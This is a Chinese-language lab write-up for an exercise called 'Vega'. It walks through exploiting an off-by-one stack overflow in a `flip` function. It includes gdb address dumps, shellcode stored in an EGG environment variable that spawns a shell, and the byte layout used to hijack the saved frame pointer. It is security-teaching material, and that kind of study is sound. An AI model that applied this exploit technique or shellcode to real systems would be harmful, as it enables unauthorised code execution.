 # Vega

## Main Idea

根据提示，我们需要利用Off-By-One漏洞。在函数`flip`中，由于边界条件不正确，导致缓冲区出现单字节溢出。

## Magic Numbers

基于上述原理，我们需要收集如下信息：shellcode的地址(shellcode位于环境变量中)、缓冲区的地址以及最内层函数的返回地址：
```
(gdb) p &buf
$1 = (char (*)[64]) 0xffffd9d0
```

```
(gdb) i f
Stack level 1, frame at 0xffffda18:
 eip = 0x804925d in invoke (flipper.c:19); saved eip = 0x804927a
 called by frame at 0xffffda24, caller of frame at 0xffffd9c8
 source language c.
 Arglist at 0xffffda10, args: in=0xffffdbb7 'A' <repeats 48 times>, "\274\377\337߼\377\337\337AAAAAAAA "
 Locals at 0xffffda10, Previous frame's sp is 0xffffda18
 Saved registers:
  ebp at 0xffffda10, eip at 0xffffda14
```

```
(gdb) p environ[4]
$1 = 0xffffdf98 "EGG=j2X̀\211É\301jGX̀1\300Ph-iii\211\342Ph+mmm\211\341Ph//shh/bin\211\343PRQS\211\341\061Ұ\v̀"
(gdb) p &environ[4]
$2 = (char **) 0xffffdac0
(gdb) 
```

## Exploit Structure

1. 我们先将`buf`填满，看看应该在`buf`的哪个位置插入shellcode的起始地址：
    ```
    (gdb) x/20x &buf
    0xffffd9d0:     0x00000000      0x00000001      0x00000000      0xffffdb8b
    0xffffd9e0:     0x00000002      0x00000000      0x00000000      0x00000000
    0xffffd9f0:     0x00000000      0xffffdfe5      0xf7ffc540      0xf7ffc000
    0xffffda00:     0x00000000      0x00000000      0x00000000      0x00000000
    0xffffda10:     0xffffda1c      0x0804927a      0xffffdbb7      0xffffda28
    ```
    `sfp`在`0xffffda10`中，该处的值指向`0xffffda1c`，将最后一个字节修改为0，因此我们在`0xffffda00`处插入地址。
2. 将`buf`的剩余部分填充
3. 最后加上空字节0，注意由于函数中有异或操作，所以我们实际插入的是`\x20`

## Exploit GDB Output

进行爆破前：
```
(gdb) x/20x &buf
0xffffd9d0:     0x00000000      0x00000001      0x00000000      0xffffdb8b
0xffffd9e0:     0x00000002      0x00000000      0x00000000      0x00000000
0xffffd9f0:     0x00000000      0xffffdfe5      0xf7ffc540      0xf7ffc000
0xffffda00:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffda10:     0xffffda1c      0x0804927a      0xffffdbb7      0xffffda28
```

进行爆破后：
```
(gdb) x/20x &buf
0xffffd9d0:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd9e0:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd9f0:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffda00:     0xffffdf9c      0xffffdf9c      0x61616161      0x61616161
0xffffda10:     0xffffda00      0x0804927a      0xffffdbb7      0xffffda28
```